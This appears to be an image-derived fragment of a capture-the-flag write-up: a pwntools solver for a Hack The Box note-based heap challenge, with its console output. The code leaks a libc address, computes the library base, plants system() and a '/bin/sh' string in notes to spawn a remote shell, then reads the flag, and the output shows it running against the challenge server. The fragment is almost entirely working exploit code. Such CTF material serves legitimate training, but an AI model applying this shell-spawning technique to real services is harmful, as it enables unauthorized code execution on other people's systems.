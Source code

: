 ```python

ru('content: ')

libc.address = u64(rl().strip().ljust(8, b'\x00')) - 0x21ace0

print(f'Libc base: {libc.address:#04x}\n')

# Create 2 notes: note[0] = system(), note[1] = "/bin/sh"
malloc(0x20, 0, str(hex(libc.sym.system)))
malloc(0x80, 1, b'/bin/sh\0')

slap('42')

r.sendline('')

pause(1)
r.sendline('cat flag*')
print(f'Flag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0 1337

Libc base: 0x7f265cb40000

Flag --> HTB{0m43_w4_m0u_5h1nd31ru~uWu}
```

